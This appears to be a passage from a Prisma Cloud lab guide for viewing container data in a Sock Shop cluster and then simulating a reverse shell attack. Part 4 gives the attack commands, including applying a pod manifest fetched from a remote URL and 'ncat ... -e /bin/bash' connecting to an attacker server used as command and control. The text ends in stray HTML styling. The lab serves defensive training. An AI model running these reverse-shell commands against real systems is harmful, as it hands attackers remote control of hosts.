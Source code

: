 ### 3a.  View container model of Sock Shop

1. On the Prisma Cloud Console, go to **Radars → Containers**. Select **cluster1**.

    <img src="images/3a_01.png" alt="3a_01.png"  width="600" />

2. Click the **mongo:latest** container to view all information Prisma Cloud has found about the container.  
    <img src="images/3a_02.png" alt="3a_02.png"  width="600" />


3. (Optional) Feel free to explore additional findings by Prisma Cloud.  For example:
   1. Click **Vulnerabilities** to see the various CVEs associated with the selected container.
        <img src="images/3a_03.png" alt="3a_03.png"  width="600" />
   2. Click **mongo:latest → Processes** to view all the processes executed by the container.
        <img src="images/3a_04.png" alt="3a_04.png"  width="600" />




## Part 4. Threat Simulation

In this section, we will simulate a reverse shell attack.  In this scenario, the attacker operates as the listener and the victim as the initiator. The attacker looks for initiators that send out remote connection requests for a specific port and forces them to connect to the listener. This enables the attacker to deliver additional malware to the network to ultimately exfiltrate sensitive data. 


### 4a. Create attacker pod
1. Create an attacker pod that will initiate the reverse connection to a malicious server. 
   ```
   kubectl apply -f https://raw.githubusercontent.com/mattmclimans/lab-works/main/shell-pod.yaml
   ```

2. Log into the attacker pod.
   ```
   kubectl exec --stdin --tty shell-pod -- /bin/bash
   ```

3. Create a reverse shell connection to the attacker's server.
   ```
   ncat 10.5.2.100 80 -e /bin/bash
   ```

4. Go to Cloud Shell and access the attacker's server.  This server serves as the command and control server to control the pod creating the reverse shell connection.



<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <style>
      .alert_box {
        background: #FFF0F0;
        color: black;
        margin: 0px auto;
        width: 700px;
        padding: 10px;
        border-radius: 3px;
      }
    </style>
    <style>
      .output_box {
        background: #2B2B2B;
        color: white;